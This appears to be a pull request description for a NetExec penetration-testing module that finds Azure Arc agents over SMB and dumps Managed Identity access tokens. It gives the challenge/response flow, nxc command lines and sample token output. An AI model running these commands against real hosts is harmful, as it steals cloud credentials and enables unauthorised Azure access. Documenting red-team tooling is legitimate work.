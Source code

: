 New module, **`azurearc`**, which detects whether a Windows host is Azure Arc–enabled and, if so, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented 401 challenge → `.key` file → second request flow.

## Behavior:
Presence check via SMB listing of:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval executed locally on target with PowerShell:
1. GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read .key contents (local admin privileges required)
2. second GET with Authorization: Basic <key>.
Write JSON to outfile, fetch via SMB, delete outfile.


- **Protocols:** SMB (requires administrative privileges)
- **Capabilities:**
  - **CHECK mode:** enumerate presence of the Azure Connected Machine Agent (Arc) by listing well-known install paths
  - **Default mode:** perform the IMDS challenge/response locally on the target and return the JSON containing the `access_token`
- **Use case:** Quickly map Arc deployment across estate and retrieve a cloud-scoped token for Azure control-plane actions during engagements.

---

## Screenshot
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/8b824c35-7595-43f1-90f1-627bb9962712" />

**Presence check only (Arc installed)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
[+] Azure Arc agent appears to be installed

**Presence check only (Arc not installed)**
nxc smb 192.168.1.101 -u USER -p 'PASS' -M azurearc -o CHECK=true
[-] Azure Arc agent not found

**Dump token (success)**
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
"access_token":"eyJhbGciOi...<redacted>...",
"expires_on":"1730812345",
"token_type":"Bearer",
"resource":"https://management.azure.com
"
}

## Setup guide for the review
git clone https://github.com/Pennyw0rth/NetExec.git

# Add the module file at:
# nxc/modules/azurearc.py

# Run from source against a lab target
python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc -o CHECK=true
python -m nxc.netexec smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
